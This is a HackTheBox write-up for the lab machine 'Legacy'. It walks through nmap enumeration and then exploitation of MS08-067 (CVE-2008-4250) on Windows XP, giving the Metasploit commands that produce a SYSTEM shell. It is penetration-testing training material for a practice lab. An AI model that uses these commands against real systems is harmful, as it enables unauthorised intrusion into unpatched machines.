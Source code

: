 ```yaml
---
layout: post
title:  "HackTheBox - Legacy Writeup"
categories: [HackTheBox]
tags: []
draft: true
---
```


# Introduction

This is a writeup for the machine "Legacy" (10.10.10.4) on the platform HackTheBox. HackTheBox is a pentetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

The first thing we're going to do is run an NMAP scan using the following command `nmap -sV -sC -Pn -oX /tmp/webmap/legacy.xml 10.10.10.4` if you're wondering about the last flag `-oX` that is allowing me to output the report into an XML format, this is because I use webmap (as you can see in the /tmp/webmap) which is an awesome tool that allows me some visual aids for a box/network!

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Legacy$ nmap -sC -sV -Pn -oX /tmp/webmap/legacy.xml 10.10.10.4

Starting Nmap 7.60 ( https://nmap.org ) at 2019-01-28 17:13 GMT
Nmap scan report for 10.10.10.4
Host is up (0.028s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d01h57m38s, deviation: 0s, median: 5d01h57m38s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:65:4d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-02-02T21:11:16+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

As you can see in the above scan, it looks like we're rrunning Windows XP, as you will know, this is a very old OS so it is likely there are going to be some CVEs which are unpatched, very easy to explokt & very powerful. We know that SMB is running so let us do some google-fu for a SMB Windows XP vulnerability.

### SMB

As we mentioned, we know SMB is running and we're on Windows XP so it is highly likely there is a vulnerability we can exploit for the foothold here. The first thing that I searched was "windows xp smb exploit" and the very first result was CVE2008-4250 & a MSF module that we can use to exploit this. I did some basic research on this vulnerability as I wanted to exploit it manually for my own benefit however, it is a lot harder to exploit manually than I expected with a lot of steps/things that had to be done, so for the sake of this being a 20 point box I just used the Metasploit module.

## Exploitation

So, let's load MSF using `msfconsole` once it loads we need to use `msf5 > use exploit/windows/smb/ms08_067_netapi ` to select the exploit, that is the MS number however as mentioned earlier the CVE is CVE2008-4250. Once we've selected the exploit we now need to set the remote host, we can do this using `set RHOST 10.10.10.4` and that will set the host. That is all we need to configure, now you just need to run the exploit and we'll get a shell.

It is worth noting that this might not work without setting the target, in that case, we know that it is Windows XP but we don't know the service pack however, we can take a pretty good guess it is the English pack SP2 or SP3. You can use `show targets` to find a list of all the service packs, etc.

```
msf5 exploit(windows/smb/ms08_067_netapi) > set TARGET 7
TARGET => 7
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   7   Windows XP SP3 English (NX)


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

Once you run this you're going to get thrown into the `system32` folder as NT_Authority. That basically means, no privilege escalation is going to be required for us now, all we need to do is go and get the user & root flag. That is it!

Thanks for reading another writeup, more coming soon! 